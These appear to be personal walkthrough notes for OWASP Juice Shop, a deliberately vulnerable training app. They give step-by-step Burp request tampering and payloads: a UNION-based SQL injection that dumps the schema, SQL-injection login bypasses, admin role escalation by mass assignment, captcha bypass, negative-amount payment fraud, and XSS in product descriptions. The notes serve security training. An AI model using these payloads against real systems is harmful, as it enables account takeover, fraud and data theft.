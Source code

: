 ## Register Admin
- capture a create user request in burp
- add a section "role":"admin"

## Bjoern's Pet
- bjoern@owasp.org
- pets name is Zaya

## Captcha Bypass
- customer feedback page
- capture the review in burp
- send to intruder
- change to null payload and clear symbols
- send 10 times

## Database Schema
- capture /rest/produts/search
- insert banana'))UNION%20SELECT%20sql,2,3,4,5,6,7,8,9%20FROM%20sqlite_master--

## Deluxe Fraud
- navigate to become a member
- capture /rest/deluxe
- change to post
- add {"paymentMode":"none","paymentId":9}

## Forged Feedback
- capture customer feedback
- change userid 

## Forged Review
- caputre editing review
- change to PUT /rest/products/6/reviews
- change or add {"id":"6G3HpeSPsHZvoq8s7","message":"I bought it, would buy again."}

## GDPR Data Erasure
- login with chris.pike@juice-sh.op'--

## Login Amy
- amy@juice-sh.op
- K1f.....................

## Login Bender
- login with
- bender@juice-sh.op'--

## Login Jim
- jim@juice-sh.op'--

## Manipulate basket
- capture request adding to basket
- change to POST
{"ProductId":1,"BasketId":1,
"quantity":3,
"BasketId":5}

## Payback time
- capture adding something to cart
- turn amount into -10000
- checkout

## Privacy Policy inspection
- /we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility

## Product Tampering
- login as admin
- navigate to the product
- change to PUT /api/Products/9 HTTP/1.1 
- add Content-Type: application/json
- add  {"description": "<a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"}

## Reset Jim's Password
- jim@juice-sh.op
- Samuel

## API Only XSS
- login as admin
- capture with burp to find the request to an api with the bearer token
- change to post
- add content-type: application/json
- add the payload to the description of a product
- putting \ infront of "

## Client-side XSS Protection
- capture creating user
- send to repeater
- change email to a script
- login to admin
- go to /administration


